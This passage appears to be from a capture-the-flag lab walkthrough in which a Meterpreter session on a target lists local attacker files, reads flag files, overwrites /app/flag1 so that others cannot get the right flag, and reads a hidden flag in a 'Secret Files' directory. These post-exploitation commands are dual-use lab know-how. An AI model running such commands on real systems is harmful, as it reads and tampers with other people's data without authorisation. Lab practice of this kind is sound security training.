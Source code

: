3. Check the present working directory on local (attacker) machine.

<pre class="language-bash"><code class="lang-bash">meterpreter > lpwd
<strong>    /root
</strong></code></pre>

4. List the files present in present working directory of the local machine.

```bash
meterpreter > lls
```

```bash
Listing Local: /root
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  570   fil   2017-10-30 12:46:42 +0000  .bashrc
40700/rwx------   4096  dir   2024-07-30 14:02:24 +0000  .cache
40755/rwxr-xr-x   4096  dir   2024-07-30 13:24:37 +0000  .msf4
40755/rwxr-xr-x   4096  dir   2019-05-26 16:35:23 +0000  .npm
100644/rw-r--r--  148   fil   2017-10-30 12:46:42 +0000  .profile
100644/rw-r--r--  13    fil   2019-02-07 07:54:01 +0000  .vimrc
100644/rw-r--r--  165   fil   2019-05-26 16:35:28 +0000  .wget-hsts
100644/rw-r--r--  293   fil   2019-02-07 07:54:01 +0000  README
40755/rwxr-xr-x   4096  dir   2019-05-26 16:36:00 +0000  tools
40755/rwxr-xr-x   4096  dir   2019-02-07 07:54:01 +0000  wordlists
```

5. Get the flag value present in /app/flag1 file.

```bash
meterpreter > cat /app/flag1
    5c50a439f040922188a22f88cecc5277
```

6. Change the flag value present in /app/flag1, so that no one else can get the right flag.

```bash
meterpreter > edit /app/flag1
meterpreter > cat /app/flag1
    2188a22f88cecc5277
```

7. Change the present working directory to a suspiciously named directory in /app and read the flag from a hidden file present in that directory.

```bash
meterpreter > cd "Secret Files"
meterpreter > ls
    Listing: /app/Secret Files
    ==========================
    
    Mode              Size  Type  Last modified              Name
    ----              ----  ----  -------------              ----
    100777/rwxrwxrwx  33    fil   2018-10-06 05:16:03 +0000  .flag2
    
meterpreter > cat .flag2
    bbbb3ed27502614e27bff65faea008a0
```
